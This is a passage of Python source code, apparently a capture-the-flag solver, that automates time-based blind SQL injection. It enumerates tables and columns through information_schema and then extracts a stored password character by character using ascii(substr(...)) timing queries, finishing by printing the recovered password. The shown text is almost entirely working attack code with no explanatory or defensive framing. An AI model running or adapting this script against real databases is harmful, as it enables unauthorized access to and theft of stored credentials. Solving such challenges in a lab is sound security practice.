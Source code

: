 ```python
        column_count = self._query_time(query)

        query = f'(SELECT Length(column_name) FROM information_schema.columns WHERE table_name="{table_name}")'
        column_length = self._query_time(query)

        column_name = ""
        for i in range(1, column_length + 1):
            query = f'(SELECT ascii(substr(column_name, {i}, 1)) FROM information_schema.columns WHERE table_name="{table_name}")'
            column_name += chr(self._query_time(query))
        
        return column_name

    def _get_password(self, table_name: str, column_name: str) -> str:
        query = f'(SELECT length({column_name}) FROM {table_name})'
        password_len = self._query_time(query)

        password = ""
        for i in range(1, password_len + 1):
            query = f'(SELECT ascii(substr({column_name}, {i}, 1)) FROM {table_name})'
            password += chr(self._query_time(query))

        return password
        
    def solve(self) -> None:
        table_count = self._get_table_count()
        print("Number of Tables:", table_count)

        table_names_len = self._get_table_name_len(table_count)
        print("Length of Each Tables:", table_names_len)

        table_names = self._get_table_names(table_names_len)
        print("Names of Each Tables:", table_names)

        column_name = self._get_column_name(table_names[0])
        print("Name of a column in 'admin_area_pw':", column_name)

        password = self._get_password(table_names[0], column_name)
        print("PASSWORD:", password)

if __name__ == "__main__":
    solver = Solver()
    solver.solve()
```